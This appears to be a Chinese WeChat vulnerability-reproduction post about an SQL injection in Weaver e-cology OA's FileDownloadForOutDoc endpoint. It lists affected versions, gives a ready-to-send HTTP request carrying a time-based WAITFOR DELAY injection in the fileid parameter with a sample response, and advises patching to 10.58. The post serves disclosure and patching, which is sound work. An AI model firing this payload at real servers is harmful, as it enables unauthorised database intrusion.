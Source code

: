 #  泛微OA e-cology FileDownloadForOutDoc前台SQL注入漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#sql 1 个

#复现 24 个

#漏洞 33 个

#漏洞复现 39 个

#泛微 1 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

        泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

        泛微e-cology FileDownloadForOutDoc 未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

 **影响版本**

  *   * 

    
    
     部分e-cology 8且补丁版本<10.58.0部分e-cology 9且补丁版本<10.58.0

 **漏洞复现**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180548.png)

payload：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

请求包：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={everything}+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

响应包：  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: WVSCache-Control: privateX-Frame-Options: SAMEORIGINX-XSS-Protection: 1Set-Cookie: ecology_JSessionid=aaag6HUJ_5F8Y8MrDt2Ky; path=/Content-Length: 0Connection: closeDate: Tue, 11 Jul 2023 12:54:14 GMT  
      
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180550.png)

 **修复建议**

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。https://www.weaver.com.cn/cs/securityDownload.asp#

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

